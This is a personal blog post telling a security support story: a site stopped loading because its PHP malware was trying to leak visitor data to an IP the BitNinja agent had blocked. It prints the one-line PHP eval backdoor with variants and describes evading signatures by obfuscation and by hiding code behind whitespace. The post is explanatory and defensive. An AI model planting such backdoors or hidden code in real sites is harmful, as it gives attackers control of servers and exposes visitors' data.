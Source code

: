 ```yaml
---
date: 2023-07-02
title: A Security horror story
tags: [security, youtube, bitninja]
---
```


{{< youtube BLOCi8j5tAo >}}

## Intro

My new teammates asked me if I had any juice security horror stories. This was a very memorable one. In the video above I tried to tell it in a standup-like fashion because if I write a script for it I would not publish it to day.

## Story

Imagine you use a website daily. Like sharing cat images, getting information about the local news, or buying your daily grocery needs from a webshop. And suddenly, the site is not loading.

This was the beginning of one of my favorite stories when I was working with [BitNinja](https://bitninja.com). We had a call or a support ticket saying: BitNinja sucks.

"We had many other security solutions but haven't experienced site downs. But now, every time we try to run the Agent, this site will not load."

I've checked the server remotely, and it responded. So the service is running. The sites are loading. So I was... nah... this is not true. The Agent will not bring a site down.

But they persisted. The site will not load. So I checked. They used the minimal functionality of the Agent. They did not enable the [WAF](https://doc.bitninja.io/docs/Modules/waf2), the [malware detection](https://doc.bitninja.io/docs/Modules/malware-detection), or any other advanced detection or prevention functionalities of the Agent. They only had the [IP reputation](https://doc.bitninja.io/docs/IP%20filter/ip_reputation). At that time, we protected thousands of servers and haven't faced issues like this with the IP reputation module. There must be something other behind it. I've asked if I could have a look at the site. Maybe I could figure out the root cause.

When I got access and had a look at the site's PHP scripts, I was shocked. The site was infected. Heavily infected. And this was the reason why the site wasn't able to load.

## Root cause

You know, the BitNinja Agent, when blocking an IP, will not just block incoming connections. It will also prevent outgoing connections to malicious IP addresses. And those malwares tried to leak visitor information to a blocked IP address.

An example of the information available on the server side, when you visit a website, can be demonstrated with this PHP code snippet:

```php
<?php
var_dump($_SERVER);
var_dump($_REQUEST);
var_dump($_ENV);
var_dump($_COOKIE);
var_dump($GLOBALS);
```

It is shocking to see how much info is available just by visiting a site. But let's go a bit further. The shortest PHP malware/backdoor is:

```
<? eval($_POST['a']);
```

With it, I can do anything on the server side with the same user privileges as the owner of the site. This signature is in most of the malware detection solutions out there. But if I change even a character, it will become a different signature like:

```
<? eval($_POST['b']);
```

or

```
<? eval($_POST['a'.'b']);
```

or I could use a bunch of other obfuscation techniques to change the code or even a code generator to create a completely random one. We can find these kinds of generators in Kali, and it is free to use for anyone.

These are very easily detectable signatures, even for the bare eye. And I wasn't the first one debugging the site. So why weren't the system administrators able to find them?

## The simplest script hiding ever

A Linus terminal window is typically 80x24 characters. On a Linux server, you are typically going to use Vim, Nano, or some other similar text-based editors to open a script file. If I just add a bunch of whitespaces before the malware, you may not even notice it present when you open up a file.

## Solution

I wrote a simple script that was able to find these malwares and clean them up. The result was more than 20 000 malware on a single WordPress website. And after the cleanup, the site was able to load correctly.

## Closing Thoughts

If you find this story terrifying, you may want to search on blind XSS. Or even the story about the Google Pixel lock screen bypass.

If you speak Hungarian, I include links to Szabolcs Csermák's youtube channel, who made a video of them.  
Egy hacker naplója: https://www.youtube.com/@Egyhackernaploja  
Blind XSS : https://youtu.be/_M_zCLxuPLo  
70 000 USD, véletlenül: https://youtu.be/05hylEHxocY

Dávid Schütz blog post about his bug bounty:  
https://bugs.xdavidhu.me/google/2022/11/10/accidental-70k-google-pixel-lock-screen-bypass/

I value Your work, Szabolcs, and I often reference it when someone asks me about security.

And I also want to thank the BitNinja team for the time we worked together. We really made a difference and made the internet a bit safer place together. ^^
